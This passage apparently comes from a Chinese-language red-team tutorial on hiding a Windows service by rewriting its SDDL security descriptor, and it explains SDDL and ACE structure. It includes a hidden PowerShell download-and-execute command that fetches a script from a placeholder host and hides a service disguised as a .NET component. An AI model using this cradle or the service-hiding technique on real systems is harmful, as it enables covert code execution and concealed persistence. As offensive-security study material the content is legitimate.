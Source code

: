    Set-Acl $S $acl  
    }  
    

远程加载powershell脚本：

    
    
    powershell.exe -exec bypass -nop -w hidden -c "IEX((new-object net.webclient).downloadstring('http://xxx:8000/s.ps1'));Server-Sddl-Change -Name '.NET CLR Networking 3.5.0.0'"  
    

从下图可见已将值从该服务项中隐藏：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210913135707.png)

# SDDL字符串详解

安全描述符字符串格式（SDDL) 是用于存储或传输安全描述符中的信息的文本格式，更改SDDL即修改对象的访问权限。

如图为一个安全对象的SDDL：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210913135709.png)

如图可见其基本组成为：

    
    
    O:owner_sid   
    G:group_sid   
    D:dacl_flags(string_ace1)(string_ace2)... (string_acen)   
    S:sacl_flags(string_ace1)(string_ace2)... (string_acen)  
    

  *  **O: 对象所有者的SID**
  *  **G：对象主组的SID**
  *  **dacl_flags** ：应用于DACL的安全描述符控制标志
  *  **string_ace1** :访问控制列表ACE

对每个组成的详细描述可以参考：https://docs.microsoft.com/en-
us/windows/win32/secauthz/security-descriptor-string-format

访问控制列表ACE决定了哪个用户对它具有哪些权限，是DACL的具体规则，我们在服务中主要关注修改的就是DACL。

对于一个具体的ACE，其具有如下结构：

    
    
    (   
    ace_type;   
    ace_flags;   
    rights;   
    object_guid;   
    inherit_object_guid;   
    account_sid;   
    (resource_attribute)  
    )  
    

对于每一个部分的详细解释可以参考：https://docs.microsoft.com/en-us/windows/win32/secauthz/ace-
strings
